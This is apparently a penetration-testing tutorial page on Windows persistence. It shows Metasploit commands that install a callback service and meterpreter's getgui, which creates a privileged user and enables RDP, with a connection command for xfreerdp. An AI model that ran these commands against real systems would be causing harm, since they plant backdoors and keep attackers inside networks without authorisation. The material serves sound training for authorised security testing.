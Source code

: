 # 8 - Windows Persistence

## <mark style="color:red;">Persistence Via Services</mark>

**Establishing Persistence On Windows**

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code. - MITRE ATT\&CK.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* Note: The persistence technique you use will need to be in accordance with the rules of engagement laid out and agreed upon with the client.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# After gaining inital access & elevated privileges.
msf6 > use exploit/windows/local/persistence_service #Create a service enabling persistence for the attacker.
#Then use a multi/handler with the same parameters (LPORT, LHOST, Payload) to connect back to the victim.
```
{% endcode %}



## <mark style="color:red;">Persistence Via RDP</mark>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
#After gaining inital access & elevated privileges.
# the "getgui" is used to check if RDP is enabled and to create a user acct.
meterpreter > run getgui -e -u <username> -p <password> #Create a new user account with elevated privileges, and enable RDP.

# rdp client to connect to RDP.
xfreedrp /u:<username> /p:<password> /v:<targetIP> #Connect to the newly created account through RDP
```
{% endcode %}



